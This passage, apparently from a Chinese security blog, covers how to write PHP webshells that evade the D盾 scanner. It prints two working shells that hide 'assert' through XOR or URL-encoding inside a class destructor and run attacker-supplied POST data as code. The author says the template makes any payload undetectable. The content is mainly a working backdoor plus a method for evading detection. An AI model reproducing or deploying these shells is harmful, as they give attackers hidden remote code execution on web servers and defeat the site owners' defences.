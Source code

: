 ### 类调用

自己在`webshell-venom`里面一直用的类调用的方式绕过D盾

下面是webshell-venom-3.3生成的shell

```
<?php
class KBFI{
    function __destruct(){
        $XMKD='B:YVD%'^"\x23\x49\x2a\x33\x36\x51";
        return @$XMKD("$this->RUOK");
    }
}
$kbfi=new KBFI();
@$kbfi->RUOK=isset($_GET['id'])?base64_decode($_POST['mr6']):$_POST['mr6'];
?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900430807-ec34a43b-2046-47e7-8b67-fb79c0e513c8.png)

惊了，这么长时间D盾还不杀。。。

因为实际操作中发现D盾对类变量不是很敏感，把混淆的内容都放到类里，就可以比较轻易地绕过D盾。

那么我们如何对上一部分的shell修改让他消除1级呢

```
<?php
class KBFI{
    function __destruct(){
        $XMKD=urldecode('%61%73%73%65%72%74');
        return @$XMKD("$this->RUOK");
    }
}
$kbfi=new KBFI();
@$kbfi->RUOK=isset($_GET['id'])?base64_decode($_POST['mr6']):$_POST['mr6'];
?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900430936-da99ae78-5d27-4ba4-ab09-28b6a55a82e5.png)

会发现我们就算改了$XMKD变量后D盾也无法识别。

也就是说只要按照这个模板写出来的shell，任意修改payload都可以免杀。

这也就是为什么3.3版本可以支持任意文件免杀

不过要注意的是assert只能执行一句，必须配合eval才可以执行多句。

具体看3.3的更新日志，不再赘述。

https://yzddmr6.tk/posts/webshell-venom-3-3/

我们已经知道了通过类的方式可以很容易的免杀D盾

所以换个写法，把传参部分写到类里也可以绕过。
